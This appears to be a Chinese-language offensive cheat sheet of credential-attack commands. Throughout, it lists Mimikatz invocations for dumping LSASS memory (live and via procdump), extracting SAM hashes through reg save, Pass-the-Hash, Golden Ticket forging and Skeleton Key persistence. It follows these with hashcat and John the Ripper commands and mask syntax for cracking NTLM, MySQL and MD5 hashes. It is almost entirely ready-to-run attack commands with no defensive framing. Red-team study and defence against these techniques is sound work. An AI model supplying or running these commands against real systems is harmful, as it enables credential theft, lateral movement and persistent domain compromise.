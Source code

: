 Mimikatz
(1)在线获取lsass进程中的密码
privilege::debug
sekurlsa::logonPasswords full
(2)离线获取
procdump.exe -accepteula -64 lsass.exe lsass.dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
(3)在线读取sam数据库获取Hash
privilege::debug
token::elevate
lsadump::sam
(4)离线读取sam数据库获取Hash
使用reg命令导出注册表
reg save hklm\\sam c:\sam.hive
reg save hklm\\system c:\system.hive
读取Hash:
privilege::debug
lsadump::sam /system:system.hive /sam:sam.hive
(5)Pass-The-Hash攻击
privilege::debug
sekurlsa::pth /user:Administrator /domain:. /ntlm:xxxx dir \\\\192.168.xxxx.xxx\\c$
(6)Golden Ticket
privilege::debug
kerberos::golden /user:admin /domain:pentestlab.com
/sid:xxx /krbtgt:xxx /admin:admin.tck /ptt dir \\\\dc.pentestlab.cvom\\c$
(7)Skeleton Key
privilege::debug
misc::skeleton
(8)获取系统进程列表
process::list

# **HashCat**

`hashcat -m 1000 -a 0 --force 31d6cfe0d16ae931b73c59d7e0c089c0 pass.txt`		
	`-m 指定模式 1000为ntlm v1 5600位ntlm v2`  300为mysql4.1/mysql5
	`-a 指定破解模式 0位字典破解`
	`然后后面为ntlm hash和字典`

myql数据库:
hashcat -m 300 -a 3 --force 81F5E21E35407D884A6CD4A731AEBFB6AF209E1B  ?l?l?l?l


`hashcat -m 1000 -a 3 --force 31d6cfe0d16ae931b73c59d7e0c089c0 ?l?l?l?l?l?l?l`
`?l              代表小写字母`
`?u              代表大写字母`
`?d              代表数字`
`?s              代表特殊字符`
`?a              代表大小写字母、数字以及特殊字符`  
`?b              0x00-0xff` 

`0    straight                                字典破解`
`1    combination                             将字典中密码进行组合（1 2 ——> 11 22 12 21）`
`3    brute-force                             使用指定掩码破解`
`6    Hybrid Wordlist + Mask                  字典+掩码破解`
`7    Hybrid Mask  + Wordlist                 掩码+字典破解`

`john --wordlist=/path/to/wordlist.txt --format=NT hashes.txt`
`john --mask=?l?l?l?l?l?l?d?d --format=NT hashes.txt`
 john --format=NT hash.txt


hashcat -m 300 -a 3 --force fc7519796812042ed564fc4cd3fa201d ?a?a?a?a?a?a?a?a

#md5
hashcat -m 0 -a 3 --force fc7519796812042ed564fc4cd3fa201d ?d?d?d?d?d?d?d?d

fc7519796812042ed564fc4cd3fa201d
ffe317ecad2405070e6f5ffefb3a38a5